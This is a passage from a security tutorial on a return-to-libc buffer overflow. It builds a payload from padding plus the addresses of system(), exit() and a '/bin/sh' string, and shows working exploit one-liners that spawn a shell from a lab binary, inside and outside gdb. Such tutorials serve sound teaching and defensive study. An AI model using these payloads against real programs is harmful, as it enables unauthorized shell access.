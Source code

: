 ## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` (located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness), which will execute `/bin/sh` that's present in  `0xb7f52968` (expressed as `\x68\x29\xf5\xb7`), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](<../../../.gitbook/assets/image (854).png>)

Let's see if the exploit works outside gdb:

{% hint style="warning" %}
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
{% endhint %}

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](<../../../.gitbook/assets/exploit-outside-gdb (1).gif>)

## References

[https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)

[https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)
